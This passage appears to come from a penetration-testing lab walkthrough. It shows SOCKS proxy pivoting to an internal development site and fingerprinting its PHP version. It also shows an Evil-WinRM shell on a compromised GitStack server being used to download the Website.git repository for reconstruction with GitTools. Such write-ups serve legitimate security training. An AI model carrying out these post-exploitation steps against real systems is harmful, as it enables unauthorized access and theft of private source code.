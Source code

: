 * Proxy Type: SOCKS5
* Proxy IP address: 127.0.0.1
* Port: 9090
* Enable and navigate to 10.200.72.100

Now, we have access to his Development website on .100.

**1) Using the Wappalyzer browser extension ([Firefox](https://addons.mozilla.org/en-GB/firefox/addon/wappalyzer/) | [Chrome](https://chrome.google.com/webstore/detail/wappalyzer/gppongmhjkpfnbhagpmjfkannfbllamg?hl=en) or an alternative method, identify the server-side Programming language (including the version number) used on the website.**

Since we are on Firefox, we will install the extension.

Re-load the page and Wappalyzer will tell us that the programming language used is PHP 7.4.11.

Now that we see the site is a copy of the one running on the webserver, we can try to get the repo from the local admin access we currently have on the git server and re-assemble it locally.

Let's look around the Git Server with WinRM.

```
*Evil-WinRM* PS C:\GitStack> cd repositories
*Evil-WinRM* PS C:\GitStack\repositories> ls


    Directory: C:\GitStack\repositories


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/2/2021   7:05 PM                Website.git


*Evil-WinRM* PS C:\GitStack\repositories> 
```

We're in luck, we found the Website.git. Let's download it using evil-winrm's download feature.

```
*Evil-WinRM* PS C:\GitStack\repositories> download Website.git
Info: Downloading C:\GitStack\repositories\Website.git to Website.git

                                                             
Info: Download successful!
```

This took a few minutes, and does not display a progress bar like the upload does... so give it awhile.

Navigate to the Website.git folder and rename the C:\GitStack\repositories\Website.git folder to .git

Now we can install GitTools:

```
git clone https://github.com/internetwache/GitTools
```

